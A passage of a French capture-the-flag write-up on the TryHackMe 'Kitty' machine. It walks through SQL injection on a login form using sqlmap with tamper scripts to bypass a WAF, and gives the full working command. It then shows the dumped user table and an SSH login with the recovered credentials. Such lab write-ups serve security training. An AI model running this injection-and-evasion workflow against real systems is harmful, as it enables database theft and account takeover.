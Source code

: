 Après plusieurs tests, je constate que le champ **username** est vulnérable seulement avec un compte existant. La SQLi fonctionne avec mon compte **test** qui existe mais pas avec **rgrg' AND 1=1 -- -** qui n'existe pas.
Je vais donc utiliser l'argument **--forms** afin de lui fournir mon compte existant. J'utilise aussi l'argument **--drop-set-cookie** en complément afin d'avoir à chaque fois une nouvelle tentative sans le cookie **PHPSESSID**.

Finalement, après des heures de tests et de recherches (Je crois que j'ai du ajouter 4-5H sur la machine), je trouve les bonnes commandes sqlmap pour faire parler la DB, il commence par m'afficher qu'il éxiste 4 colonnes par exemple:
```
[05:01:29] [INFO] target URL appears to have 4 columns in query
```
ou encore, il me dis qu'il y a visiblement un WAF/IPS:
```
[04:47:56] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
```
SQLMap me conseil d'utiliser l'argument **--tamper** je me renseigne donc sur les différents script disponible (sur kali, ils sont dans **/usr/share/sqlmap/tamper**). 
Je trouve le script **ifnull2ifisnull** qui transforme les **IFNULL(A, B)** en **(ISNULL(A), B, A)** ce qui permet de contourner certains filtres, je me dis que ca contournera peut-être le WAF/IPS.
Je trouve aussi le script **hex2char** qui concerne MySQL, il permet de passer d'un string en hexa vers du char.

J'arrive enfin à voir le contenue de la DB, Voici la commande finale qui ma permis de le faire:
```
sqlmap -u "http://kitty.thm" --forms --dbms=mysql -p username --dump --tamper=ifnull2ifisnull,hex2char --skip-heuristic --drop-set-cookie --flush-session
```
```
Database: mywebsite
Table: siteusers
[2 entries]
+----+-----------------+----------+---------------------+
| id | password        | username | created_at          |
+----+-----------------+----------+---------------------+
| 1  | L[...]Y         | kitty    | 2022-11-08 03:17:39 |
| 2  | jetest123       | test     | 2024-07-25 07:31:51 |
+----+-----------------+----------+---------------------+
```
J'ai test le compte sur le site et cela ne fait rien de plus. Je test donc avec SSH et c'est bon :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Kitty]
└─$ ssh kitty@kitty.thm             
The authenticity of host 'kitty.thm (10.10.140.249)' can't be established.
ED25519 key fingerprint is SHA256:WTDPRyiPy3rCqiR/rmX9VfkhPJHnjOBi9d1y6qbokKY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'kitty.thm' (ED25519) to the list of known hosts.
kitty@kitty.thm's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)

[...]

Last login: Tue Nov  8 01:59:23 2022 from 10.0.2.26
kitty@kitty:~$ 

```

